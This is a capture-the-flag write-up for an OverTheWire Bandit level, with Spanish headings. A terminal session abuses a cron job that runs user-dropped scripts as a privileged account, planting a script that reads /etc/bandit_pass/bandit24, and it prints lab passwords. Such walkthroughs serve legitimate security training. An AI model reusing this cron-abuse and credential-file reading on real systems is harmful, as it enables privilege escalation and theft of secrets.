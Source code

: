 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución
```

bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ which bash
/usr/bin/bash
bandit23@bandit:/etc/cron.d$ ls -al
total 56
drwxr-xr-x   2 root root  4096 Feb 21 22:04 .
drwxr-xr-x 108 root root 12288 Feb 21 22:04 ..
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit22
-rw-r--r--   1 root root   122 Feb 21 22:03 cronjob_bandit23
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit24
-rw-r--r--   1 root root    62 Feb 21 22:03 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Feb 21 22:04 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/pass24
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/pass24
bandit23@bandit:/tmp/pass24$ nano srcipt24.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/pass24$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23 66 Feb 26 01:21 srcipt24.sh
bandit23@bandit:/tmp/pass24$ cat srcipt24.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/pass24/contra24
bandit23@bandit:/tmp/pass24$ touch contra24
bandit23@bandit:/tmp/pass24$ ls
contra24  srcipt24.sh
bandit23@bandit:/tmp/pass24$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23  0 Feb 26 01:22 contra24
-rw-rw-r-- 1 bandit23 bandit23 66 Feb 26 01:21 srcipt24.sh
bandit23@bandit:/tmp/pass24$ chmod 777 -R /tmp/pass24
bandit23@bandit:/tmp/pass24$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23  0 Feb 26 01:22 contra24
-rwxrwxrwx 1 bandit23 bandit23 66 Feb 26 01:21 srcipt24.sh
bandit23@bandit:/tmp/pass24$ cp srcipt24.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/pass24$
```
## Notas adicionales
+ which localiza los ficheros ejecutables mediante la variable de entorno PATH
## Referencias
+ [Comando which en Linux | NKSistemas](https://nksistemas.com/comando-which-en-linux/#:~:text=Hoy%20veremos%20de%20que%20se,de%20las%20distribuciones%20GNU%2FLinux.)
+ [Writeup - Wargame Bandit - Parte 3 - WF-Networking (w0lff4ng.org)](https://www.w0lff4ng.org/wargame-bandit-3/)